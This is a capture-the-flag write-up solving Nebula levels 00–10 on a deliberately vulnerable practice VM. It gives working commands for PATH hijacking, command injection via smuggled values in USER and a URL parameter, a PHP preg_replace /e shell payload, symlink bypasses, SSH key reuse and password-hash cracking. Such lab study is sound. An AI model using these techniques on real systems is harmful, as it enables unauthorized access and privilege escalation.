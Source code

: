 # The Writeup for Nebula Level

## Introduction

This writeup is for Nebula level in [exploit-exercises.com] (https://exploit-exercises.com/nebula/).
Users can download a virtual disk file and setup a virtual machine to do exercises. The login user/password pair is nebula/nebula, which also contains the sudo permission. Regarding each level, users can apply levelXX/levelXX user/password pair to challenge each level.

Regarding the emulated screen is not friendly. We can setup ssh and login remotely. However, please generate RSA and DSA key pair firstly.

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
ssh-keygen -t dsa -f /etc/ssh/ssh_host_dsa_key
service ssh restart
```   

Then ssh from your local terminal. The IP address depends on your Network configuration of Virtual Box. I chose NAT mode and set port forward.

```
ssh -p 1222 nebula@127.0.0.1
```

## Writeup

### Level00

Firstly, please login as level00 with the password of level00.

The mission is to find a Set User ID program that will run as the “flag00” account.

After check the manual of `find` command, the command is followed.
 
```
find / -perm -4000 -user flag00 > result.log
cat result.log
```

The aim program is `/rofs/bin/.../flag00` and the output is that `Congrats, now run getflag to get your flag!`

The fullpath of the flag program is `/bin/getflag`.

### Level01
The vulnerability of this level is about PATH variable in the environment. We can set current directory as PATH by command `env PATH=.`, then link `echo` to flag program.

The following shell script shows the exploit process.

```
ln -s /bin/getflag echo
env PATH=. /home/flag01/flag01
```

### Level02
The vulnerability of level02 is about shell command injection.

The following shell script will load flag program.

```
ln -s /bin/getflag x
env PATH=. USER='hacked; ./x' /home/flag02/flag02
```

### Level03
The vulnerability is about a writable crontab directory. The permission of `writable.d` is `0777`, which means any one is able to add a file in this directory. As any scripts in this directory will be executed by writable.sh, I just put a script to load flag program.

The content of the script is followed.

```
#!/bin/sh
/bin/getflag > /tmp/level03.log
``` 

After a short time (5 minutes), the script will be executed and the log file can be found.

### Level04
It is not a good practice that restricting access file based on filename, because soft link can be used to bypass such control.

```
ln -s /home/flag04/token x
/home/flag04/flag04 x
```

The output is `06508b5e-8909-4f38-b630-fdb148a848a2` .

### Level05
In the home of user level05, `.backup` directory can be read by others. `backup-19072011.tgz` is stored in this directory. I decompressed it and found private key for ssh.

The following ssh command will be used to login without password.

```
ssh -i ./id_rsa flag05@localhost
```

### Level06
The password of user `flag06` is followed UNIX style. The hash value is stored in `/etc/password`.

`flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`

The hash can be cracked by John the Ripper on Kali.

save user:hash into a file named test_pass.txt and apply this command to crack.

`john test_pass.txt `

The output shows the password is `hello`

```
root@kali:/tmp# john test_pass.txt 
Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
hello            (flag06)
guesses: 1  time: 0:00:00:00 DONE (Mon Dec 21 12:18:25 2015)  c/s: 74200  trying: 123456 - thebest3
Use the "--show" option to display all of the cracked passwords reliably
```

### Level07
Command injection happened again.
This time, I changed network mode to bridge mode.

` curl -v "http://192.168.1.224:7007/index.cgi?Host=127.0.0.1+%3b+/bin/getflag"`

I inserted the second command after Host parameter.

### Level08
There is a pcap file in this level. I will use Wireshark to analyse the package file. 

The following snapshot image shows the password of flag08 is `backd00Rmate`

![The image of snapshot in level08](level08.png)

Please notice that 0x7f is DEL, which means delete previous key.

### Level09
The vulnerability is about `preg_replace()` in PHP.

The vulnerable line is followed.
```
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```

Before PHP extract email to spam function, there is chance to execute php function.

I created a file with content `[email ${${@exec(sh)}}]`

The following command will get a shell.

```
/home/flag09/flag09 ./test.txt 111
```

One interesting thing is that I failed to pass `/bin/getflag` because of special character `/`.

More study is needed about preg_replace vulnerability.

### Level10
The vulnerability is that the `access()` and the `open()` is based on filename. I can launch a toctou attack (race condition attack). Firstly, establish a soft link to a file that user level10 has read permission. Secondly, change the soft link to flag file.

Launch a listener at host.
```
nc -l 192.168.1.88 18211
```

The feasible way to do a race condition attack is make `connect()` last longer.

One idea is to set `iptables` drop ACK from host for a short time. In this case, program of level10 will try to resent ACK package. Then I will change the soft link to token file. After re-configurating `iptables`, the TCP connection will be finished.

It is just an idea. I will try it later.

## Conclusion

## Reference

